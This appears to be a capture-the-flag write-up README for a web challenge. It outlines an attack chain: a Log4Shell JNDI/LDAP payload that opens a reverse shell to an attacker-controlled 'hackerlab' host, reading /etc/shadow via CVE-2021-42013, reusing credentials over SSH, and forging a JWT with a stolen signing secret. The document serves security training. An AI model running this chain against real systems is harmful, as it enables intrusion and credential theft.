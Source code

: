 # Forgot Your Password

Web security, application vulnerability exploitation (including coding).

## How to solve

Follow the instructions in the [attached auto-solver application](./auto-solve/ldap-server/src/main/java).

TLDR:

1. Get a reverse shell to the challenge's internal network:
    1. In the hackerlab, start a reverse shell listener (e.g. on port 1338)
    2. Also in the hackerlab, start [an HTTP server](./auto-solve/ldap-server/src/main/java/PayloadHTTPServer.java) (e.g. on port 8083) to host a [class that will launch a reverse shell](./auto-solve/Exploit.java) connection to the listener from the previous step (i.e., `hackerlab:1338`)
    3. Still in the hackerlab, start [an LDAP server](./auto-solve/ldap-server/src/main/java/LDAPRefServer.java) to point to the hosted class from the previous step (i.e., `http://hackerlab:8083/#Exploit`)
    4. [Post a payload](./auto-solve/ldap-server/src/main/java/Launcher.java) to the Java app running at `/auth/*` to exploit [CVE-2021-44228 (also known as Log4Shell)](https://en.wikipedia.org/wiki/Log4Shell) and point to the LDAP server from the previous step (i.e., `jndi:ldap://hackerlab:389/...`)
   5. The payload should enable the reverse shell - from the hackerlab, you should now be able to run commands on another machine (`authus` inside the `172.21.0.0/24` network)
2. Your reverse shell should now be functional. Use it to explore the connected machine and its network
3. From the sources of the application the reverse shell is running through (JAR located in `/app/`), extract a HMAC256 JWT signing secret
4. Find a `mailus` suffering from CVE-2021-42013, allowing an attacker to read `/etc/shadow`
5. Reuse the same credentials to SSH into `logus` and extract a user ID from `/var/log/dashboard/proxy2021-12-09.log`
6. Forge a JWT with containing simply the user ID, and sign it with the signing secret
7. Access the dashboard (repository) and copy and submit the flag
